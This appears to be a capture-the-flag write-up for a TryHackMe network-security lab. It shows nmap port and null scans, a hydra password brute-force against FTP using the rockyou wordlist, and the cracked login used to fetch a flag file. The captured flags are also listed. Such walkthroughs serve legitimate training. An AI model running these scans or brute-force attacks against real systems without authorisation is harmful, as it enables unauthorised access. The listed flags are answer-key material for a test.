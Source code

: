 # Net Sec Challenge

Practice the skills you have learned in the Network Security module.

## Active Machine Information

| Title | IP Address |
| :----: | :----: |
| NetSecMod Room 09 Challenge v1.11 | 10.10.91.0 |

### Task 1

```bash
export IP=10.10.91.0
```

### Task 2

```bash
sudo nmap -A -p- -T4 -vv -oN initial.nmap $IP
```

Result: [initial.nmap](initial.nmap)

> `8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)`

> `10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3`

> `|_http-server-header: lighttpd THM{web_server_25352}`

> `|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}`

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -t 20 -s 10021 -v $IP ftp | tee quinn.hydra
```

Result: 

- [eddie.hydra](eddie.hydra)
- [quinn.hydra](quinn.hydra)

> `[10021][ftp] host: 10.10.91.0   login: quinn   password: andrea`

Using: `quinn:andrea`

```bash
ftp 10.10.91.0 10021
ls
get ftp_flag.txt
```

Result: [ftp_flag.txt](ftp_flag.txt)

> `THM{321452667098}`

```bash
sudo nmap -sN $IP
```

> `THM{f7443f99}`
